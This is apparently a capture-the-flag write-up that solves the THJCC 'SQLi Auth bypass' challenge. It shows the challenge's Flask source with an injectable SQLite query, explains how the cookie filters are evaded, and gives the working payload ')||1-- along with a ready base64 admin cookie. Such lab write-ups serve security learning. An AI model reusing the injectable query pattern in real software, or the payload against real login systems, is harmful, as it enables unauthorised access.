 ```yaml
---
layout: post
title:  "[THJCC]SQLi Auth bypass"
date:   2024-04-29 00:29:20 +0700
categories: ctfwriteup
---
```


### Challenge Name : SQLi Auth bypass 

<img>

• I played this THJCC CTF last weekend and thought of making a writeup for this SQLI challenge,since i been solving quite a lot of SQLI challenges recently.

• Source code for the challenge has been given and inspecting the auth.py

```
from flask import make_response, redirect
import base64, re, sqlite3, string

# Cookie & Auth
def auth(content):
    try:
        username, password = base64.b64decode(content.encode()).decode(encoding="utf8").split("@")
        # 去除所有空格
        username = "".join(username.split())
        password = "".join(password.split())

        # 過濾username中所有特殊字符
        mu = re.match(r'.*\W', username)
        if mu is None: 
            # 過濾password中所有英文字母跟等號
            cflag = False
            for w in password: 
                if (w in string.ascii_letters) or (w == "="): cflag = True
            if (cflag): return None
            else:
                conn = sqlite3.connect("user.db")
                rows = conn.execute(f"select * from user where (user='{username}') and (pass='{password}');")
                result = None
                for row in rows: result = tuple(row)
                conn.close()

                if result is None: 
                    return None
                else: 
                    return str(result[0])
        else: return None
    except: return None 
def guestGive():
    res = make_response(redirect("/"))
    res.set_cookie("role", base64.b64encode("guest@?*&*@&*#&".encode()).decode(encoding="utf8"))
    return res
```

• It sets the cookie value as guest@somespcialchars and the first value is treated as username and second value treated as password and passed to the SQL query `conn.execute(f"select * from user where (user='{username}') and (pass='{password}');")`,
If the username and password is valid,then it responds with a main.html.

```
#main.py
from flask import Flask, request, redirect, render_template
from auth import *

# Main
PORT = 10010

FLAG = "THJCC{exampleFlag}"

app = Flask(__name__)

# Routes
@app.route("/")
def index():
    cookie = request.cookies.get("role")
    if cookie is None: return guestGive()
    else:
        authCookie = auth(cookie)
        if authCookie is None: return guestGive()
        elif authCookie == "guest" or authCookie == "admin": return redirect("/flag")
        else: return guestGive()

@app.route("/flag", methods = ['GET', "POST"])
def profile():
    cookie = request.cookies.get("role")
    if cookie is None: return redirect("/")
    else:
        authCookie = auth(cookie)
        if authCookie is None: return redirect("/")
        elif authCookie == "guest": return render_template("main.html")
        elif authCookie == "admin": return FLAG + "<img src=\"https://media1.tenor.com/m/wm_jigc51u8AAAAC/fubuki-%E7%99%BD%E4%B8%8A%E3%83%95%E3%83%96%E3%82%AD.gif\" style=\"width: 100%;\" /><title>Flag</title>"
        else: return redirect("/")

if __name__ == "__main__": app.run("0.0.0.0", PORT, debug=False)
```

• We need to auth bypass as the admin to get the flag but we dont have admin password, all we know is we have SQL injection on username and password field.

• We have restriction on username and password, we can only can have alphabet characters on the username and no specialcharacters likewise we can only have specialcharacters on password and no alphabets.

```
        if mu is None: 
            # 過濾password中所有英文字母跟等號
            cflag = False
            for w in password: 
                if (w in string.ascii_letters) or (w == "="): cflag = True
            if (cflag): return None
```

• We can bypass the password field by supplying <code>` ')||1-- `</code> and changing the username to admin.

Breakdown:

') - we are closing the password query properly
|| - using OR operator
1 - 1 which will always result in true
-- - commenting out the reamining query

• Final base64 cookie <code>`YWRtaW5APyomLTwvOzwkKX5+LyUuIX17L1wpeyV+OjwhKS0jJV0oXSQtJSh9XV1fJnwufV8tOyNgXjwmJSZdPmB+Kn4oXj4rLH0vIyomJjomfCN8JntdIy8jJV4uOyUtXiV9JF0pPFtcOil+Wz5cfnsjXlsvPztgI2ApKX1eXVwqO18vLDwnKXx8MS0t`</code>

<img>